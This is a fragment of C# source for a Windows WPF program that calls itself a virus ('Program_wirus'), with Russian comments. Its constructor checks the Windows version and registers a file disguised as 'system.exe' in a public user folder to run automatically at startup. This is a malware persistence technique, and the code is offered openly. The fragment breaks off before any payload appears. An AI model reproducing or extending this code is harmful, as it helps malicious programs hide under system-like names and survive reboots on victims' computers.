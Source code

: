 # Program_wirus
namespace WpfApplication_OKSANA
{
    public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }
